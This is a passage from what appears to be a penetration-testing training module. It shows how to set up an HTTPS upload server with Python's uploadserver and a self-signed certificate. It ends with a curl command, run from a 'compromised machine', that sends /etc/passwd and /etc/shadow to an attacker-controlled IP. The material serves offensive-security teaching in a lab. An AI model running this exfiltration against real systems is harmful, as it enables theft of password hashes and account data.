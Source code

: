 ## Web Upload

As mentioned in the `Windows File Transfer Methods` section, we can use [uploadserver](https://github.com/Densaugeo/uploadserver), an extended module of the Python `HTTP.Server` module, which includes a file upload page. For this Linux example, let's see how we can configure the `uploadserver` module to use `HTTPS` for secure communication.

The first thing we need to do is to install the `uploadserver` module.

#### Pwnbox - Start Web Server

Pwnbox - Start Web Server

```shell-session
glack@htb[/htb]$ python3 -m pip install --user uploadserver

Collecting uploadserver
  Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
```

Now we need to create a certificate. In this example, we are using a self-signed certificate.

#### Pwnbox - Create a Self-Signed Certificate

Pwnbox - Create a Self-Signed Certificate

```shell-session
glack@htb[/htb]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

Generating a RSA private key
................................................................................+++++
.......+++++
writing new private key to 'server.pem'
-----
```

The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.

#### Pwnbox - Start Web Server

Pwnbox - Start Web Server

```shell-session
glack@htb[/htb]$ mkdir https && cd https
```

Pwnbox - Start Web Server

```shell-session
glack@htb[/htb]$ python3 -m uploadserver 443 --server-certificate /root/server.pem

File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...
```

Now from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files.

#### Linux - Upload Multiple Files

Linux - Upload Multiple Files

```shell-session
glack@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

We used the option `--insecure` because we used a self-signed certificate that we trust.